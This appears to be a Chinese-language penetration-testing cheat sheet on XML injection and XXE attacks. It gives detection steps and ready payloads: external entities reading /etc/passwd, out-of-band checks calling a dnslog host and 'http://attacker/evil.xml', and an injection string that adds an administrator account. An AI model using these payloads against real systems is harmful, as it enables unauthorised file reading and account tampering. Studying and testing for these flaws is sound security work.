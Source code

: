 	XML设计的宗旨是传输数据，而非显示数据
	XXE=XML外部实体注入、XML=可扩展标记语言
	Xml文件声明
	<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
	DTD为XML的文档类型定义
	引入外部DTD
	<!DOCTYPE 根元素 SYSTEM "filename">
	参数实体+外部实体
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE test [
		<!ENTITY % file SYSTEM "file:///etc/passwd">
		%file;
	]>
  #### XML注入
	闭合标签，改写xml文件，用户可控，有拼接代码
	<?xml version="1.0" encoding="utf-8"?>
	<manager>
		<admin id="1">
    <username>admin</username>
    <password>admin</password>
    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
	</manager>
	若是password可控，拼接代码形成注入
	admin </password></admin><admin id="3"><name>hack</name><password>hacker</password></admin>
  #### XXE
	https://github.com/AonCyberLabs/xxe-recursive-download
	程序解析XML输入时，未禁止外部实体的加载，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害
  ##### 判断
	回显路径
		<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "test">%remote;]>
	DNSLOG
		http://www.dnslog.cn/
	<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY dtd SYSTEM "http://xxx.dnslog.cn/xxe">]>
	<xxe>&dtd;</xxe>
	Webdav
		存在webdav可使用PROPPATCH、PROPFIND、 LOCK等请求方法接受xml输入形成xxe
	Wsdl使用AWVS测试
  ##### 挖掘
	如遇与xml交互的地方
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE ANY [  
	<!ENTITY test "this is test"> 
	]> 
	<root>&test;</root>
	看是否输出
	检查是否支持外部实体
	<?xml version="1.0" encoding="UTF-8"?> 
   	<!DOCTYPE ANY [  
   	<!ENTITY % foo SYSTEM "http://attacker/evil.xml"> 
   	%foo;
	]> 
	查看你的服务器是否有请求
	JSON content-type XXE
	修改Content-Type: application/xml
	X-Requested-With: XMLHttpRequest
	<?xml version="1.0" encoding="UTF-8" ?>
	<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
